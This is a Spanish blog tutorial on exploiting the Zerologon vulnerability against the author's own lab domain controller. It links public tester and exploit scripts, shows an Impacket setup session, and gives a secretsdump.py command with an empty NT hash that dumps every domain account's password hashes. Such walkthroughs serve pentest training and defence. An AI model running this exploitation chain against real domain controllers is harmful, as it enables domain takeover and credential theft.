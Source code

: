 ```yaml
---
layout: single
title: Cómo explotar la vulnerabilidad Zerologon
excerpt: "Mucho se está hablando acerca de la nueva vulnerabilidad Zerologon, pero... ¿realmente es crítica?. Lo analizaremos en detalle en este artículo."
date: 2020-09-16
classes: wide
header:
  teaser: https://k4lelv.github.io/k4lelvBlog.github.io/assets/images/zerologon/zerologon.png
  teaser_home_page: true
categories:
  - Research
  - Utilidades
  - Exploits
  - Vulnerabilidades
tags:
  - Pentesting
  - Herramientas
  - Windows
  - Linux
  - Domain Controller
  - Guías
  - Privilege Escalation
---
```


![](https://k4lelv.github.io/k4lelvBlog.github.io/assets/images/zerologon/zerologon.png)

## ¿Es realmente crítico Zerologon?

La respuesta es un **si** rotundo. No creo que haga falta a estas alturas comentar qué es Zerologon... ya existen montón de artículos a disposición detallando de forma técnica y ejecutiva en qué consiste la vulnerabilidad.

Centrémonos en la explotación, ¿cómo se explota zerologon?, vamos a ello. En mi caso comenzaré haciendo uso de la siguiente utilidad:

* [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

Este recurso, nos permitirá a través del script `zerologon_tester.py`, saber si el DC en cuestión es vulnerable ante el ataque. Yo ya dispongo de un DC virtualizado contra el que lanzar el tester, en caso de no contar con uno, te recomiendo hacer uso de la utilidad '**AD-AutomationLab**', una herramienta en PowerShell que desarrollé para el despliegue automatizado de un Domain Controller entre otras cosas (también es capaz de configurar vulnerabilidades reconocidas sobre el servidor).

Por aquí os dejo el enlace para aquellos/as que lo quieran usar:

* [https://github.com/k4lelv/AD-AutomationLab](https://github.com/k4lelv/AD-AutomationLab)


## ¿Cómo se explota la vulnerabilidad Zerologon?

Una vez tengamos ya el Domain Controller operando, podremos empezar. La dirección IP de mi DC en este caso es la `192.168.101.130`, y la dirección IP de mi equipo atacante la `192.168.101.128`.

Partiendo de este punto, estos son los resultados obtenidos al lanzar el tester sobre el DC:

<p align="center">
<img src="https://k4lelv.github.io/k4lelvBlog.github.io/assets/images/zerologon/1.png">
</p>

Toda la información referente al nombre de equipo, dominio y demás puede obtenerse rápidamente desde CrackMapExec con un simple escaneo por Samba:

<p align="center">
<img src="https://k4lelv.github.io/k4lelvBlog.github.io/assets/images/zerologon/2.png">
</p>

En base a los resultados de la primera foto, vemos que el DC es vulnerable. Lo único que nos queda por tanto es explotar la vulnerabilidad.

En esta ocasión, estaré usando el siguiente recurso de la plataforma de GitHub:

* [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

Esta utilidad cuenta con un script de nombre `cve-2020-1472-exploit.py`, el cual como información nos solicita el nombre del equipo y la dirección IP de la máquina víctima.

Antes de explotar la vulnerabilidad, para evitar problemas con Impacket, recomiendo tirar de `virtualenv` para tras su instalación ejecutar posteriormente la herramienta. Sería seguir básicamente los siguientes pasos:

```bash
┌─[root@parrot]─[/home/k4lelv/Desktop]
└──╼ #virtualenv zerologon
created virtual environment CPython3.8.2.final.0-64 in 178ms
  creator CPython3Posix(dest=/home/k4lelv/Desktop/zerologon, clear=False, global=False)
  seeder FromAppData(download=False, CacheControl=latest, appdirs=latest, certifi=latest, chardet=latest, colorama=latest, contextlib2=latest, distlib=latest, distro=latest, html5lib=latest, idna=latest, ipaddr=latest, lockfile=latest, msgpack=latest, packaging=latest, pep517=latest, pip=latest, pkg_resources=latest, progress=latest, pyparsing=latest, pytoml=latest, requests=latest, retrying=latest, setuptools=latest, six=latest, urllib3=latest, webencodings=latest, wheel=latest, via=copy, app_data_dir=/root/.local/share/virtualenv/seed-app-data/v1.0.1.debian)
  activators BashActivator,CShellActivator,FishActivator,PowerShellActivator,PythonActivator,XonshActivator
┌─[root@parrot]─[/home/k4lelv/Desktop]
└──╼ #source zerologon/bin/activate
(zerologon) ┌─[root@parrot]─[/home/k4lelv/Desktop]
└──╼ #cd /opt/
(zerologon) ┌─[root@parrot]─[/opt]
└──╼ #git clone https://github.com/SecureAuthCorp/impacket
Clonando en 'impacket'...
remote: Enumerating objects: 39, done.
remote: Counting objects: 100% (39/39), done.
remote: Compressing objects: 100% (26/26), done.
remote: Total 18517 (delta 19), reused 26 (delta 13), pack-reused 18478
Recibiendo objetos: 100% (18517/18517), 6.17 MiB | 5.96 MiB/s, listo.
Resolviendo deltas: 100% (14103/14103), listo.
(zerologon) ┌─[root@parrot]─[/opt]
└──╼ #cd impacket/
(zerologon) ┌─[root@parrot]─[/opt/impacket]
└──╼ #python3 setup.py install

...

```

Una vez hecho, la ejecución del exploit debe devolver un output como este en caso de éxito:

<p align="center">
<img src="https://k4lelv.github.io/k4lelvBlog.github.io/assets/images/zerologon/3.png">
</p>

Si esto es así, ya todo lo demás está hecho. Lo único que tendríamos que hacer, tal y como nos indica el README del siguiente recurso:

* [https://github.com/risksense/zerologon](https://github.com/risksense/zerologon)

Sería ejecutar la siguiente sentencia:

```bash
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
```

Para mi caso quedaría de la siguiente forma:

```bash
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 's4vicorp/DC-Company$@192.168.101.130'
```

Obteniendo los siguientes resultados tras su ejecución:

<p align="center">
<img src="https://k4lelv.github.io/k4lelvBlog.github.io/assets/images/zerologon/4.png">
</p>

Conseguimos listar los hashes de todos los usuarios existentes a nivel de dominio, incluido aquellos que sean administradores del dominio. Básicamente el mismo efecto que obtendríamos si desde CrackMapExec hubiéramos hecho uso de la acción `--ntds vss`, pero claro... en ese caso habríamos necesitado credenciales válidas, lo bueno del Zerologon es que no hace falta nada de eso :)
